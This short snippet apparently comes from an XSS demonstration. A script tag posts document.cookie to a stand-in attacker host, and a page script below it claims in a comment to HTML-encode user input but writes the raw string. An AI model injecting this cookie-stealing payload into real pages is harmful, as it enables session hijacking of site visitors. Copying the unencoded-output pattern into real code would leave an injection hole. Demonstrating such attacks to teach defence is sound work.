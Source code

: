 <script>
    fetch("theAttackersWebsite.com/victimData", {
    method: 'post',
    body: document.cookie,
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    }
})
</script>


window.onload = startFunction;

function startFunction() {
  var thisButton = document.getElementById("doIt");

  addEventListener("exe", function () {
    const string = document.getElementById("inputText").value;
    // Encode the string using the he package's encode() function
    var encodedStr = string;
    document.getElementById("output").textContent = encodedStr;
  });
}

